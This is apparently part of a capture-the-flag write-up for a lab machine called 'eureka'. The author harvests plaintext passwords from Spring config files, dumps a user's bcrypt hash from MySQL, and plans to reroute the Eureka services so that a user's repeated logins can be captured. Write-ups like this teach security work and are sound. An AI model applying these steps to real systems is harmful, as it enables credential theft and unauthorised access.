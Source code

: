 `/var/www/web` has the code used for eureka + the static site.
```bash
oscar190@eureka:/var/www/web$ ls -la
total 28
drwxrwxr-x 7 www-data developers 4096 Mar 18 21:19 .
drwxr-xr-x 4 root     root       4096 Apr 10 07:25 ..
drwxrwxr-x 6 www-data developers 4096 Mar 18 21:17 cloud-gateway
drwxrwxr-x 5 www-data developers 4096 Aug  5  2024 Eureka-Server
drwxrwxr-x 5 www-data developers 4096 Aug  5  2024 Furni
drwxrwxr-x 6 www-data developers 4096 Jul 23  2024 static
drwxrwxr-x 6 www-data developers 4096 Mar 19 22:07 user-management-service
```

Another password from the eureka server config file `./Eureka-Server/target/classes/application.yaml`.
`EurekaSrvr`:`0scarPWDisTheB3st`

Doesn't work on miranda:
```bash
oscar190@eureka:/var/www/web$ su - miranda-wise
Password:
su: Authentication failure
```

There is also some db credentials:
```config
#Mysql
spring.jpa.hibernate.ddl-auto=none
spring.datasource.url=jdbc:mysql://localhost:3306/Furni_WebApp_DB
spring.datasource.username=oscar190
spring.datasource.password=0sc@r190_S0l!dP@sswd
spring.datasource.driver-class-name=com.mysql.cj.jdbc.Driver
spring.jpa.properties.hibernate.format_sql=true
```

Checking the db gives us the hash for miranda:
```dump
| 9 | Miranda | Wise | miranda.wise@furni.htb | $2a$10$T4L873JALnbXH10tq.mEbOOVYmZPLlBBSeD1h2hqAeX6nbTDXMyqm |
```

Doesn't seem to crack.

Checking the logs we can see that miranda tries to login every minute. Maybe we can change some of the services to point to ourselves.
```bash
# /var/www/web/user-management-service/log/application.log
2025-04-09T11:35:01.878Z  INFO 1172 --- [USER-MANAGEMENT-SERVICE] [http-nio-127.0.0.1-8081-exec-1] c.e.Furni.Security.LoginSuccessLogger    : User 'miranda.wise@furni.htb' logged in successfully
```

Let's check the eureka server now
```bash
sshfwd 8761 $(cat ip.txt) 8761 -l oscar190
```

We use these creds to login:
`EurekaSrvr`:`0scarPWDisTheB3st`
